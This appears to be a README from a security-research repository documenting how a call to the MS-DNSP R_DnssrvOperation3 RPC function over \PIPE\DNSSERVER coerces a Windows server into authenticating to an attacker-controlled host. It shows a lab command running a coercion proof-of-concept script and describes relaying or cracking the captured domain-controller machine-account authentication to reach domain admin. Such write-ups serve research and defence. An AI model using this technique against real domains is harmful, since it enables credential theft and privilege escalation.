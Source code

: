 # MS-DNSP - Remote call to R_DnssrvOperation3 (opnum 12)

## Summary

 - **Protocol**: [[MS-DNSP]: Domain Name Service (DNS) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a)

 - **Protocol UUID**: 50abc2a4-574d-40b3-9d66-ee4fd5fba076

 - **Protocol version**: 0.0

 - **SMB Named pipe**: `\PIPE\DNSSERVER`

 - **Function name**: [`R_DnssrvOperation3`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/54044c36-4e9e-44fb-80df-ffb026939b8b)

 - **Function operation number**: `12`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\DNSSERVER` and bind to the desired [`MS-DNSP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) protocol (with uuid `50abc2a4-574d-40b3-9d66-ee4fd5fba076` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-DNSP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\DNSSERVER` This pipe is connected to the protocol [[MS-DNSP]: Domain Name Service (DNS) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) and allows to call RPC functions of this protocol. We will then call the remote [`R_DnssrvOperation3`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/54044c36-4e9e-44fb-80df-ffb026939b8b) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
R_DnssrvOperation3('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
LONG R_DnssrvOperation3(
   [in]                           handle_t            hBindingHandle,
   [in]                           DWORD               dwClientVersion,
   [in]                           DWORD               dwSettingFlags,
   [in, unique, string]           LPCWSTR             pwszServerName,
   [in, unique, string]           LPCSTR              pszZone,
   [in, unique, string]           LPCWSTR             pwszZoneScopeName,
   [in]                           DWORD               dwContext,
   [in, unique, string]           LPCSTR              pszOperation,
   [in]                           DWORD               dwTypeId,
   [in, switch_is(dwTypeId)]      DNSSRV_RPC_UNION    pData
 );
```

## References

 - Documentation of protocol [MS-DNSP]: Domain Name Service (DNS) Server Management Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a

 - Documentation of function `R_DnssrvOperation3`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/54044c36-4e9e-44fb-80df-ffb026939b8b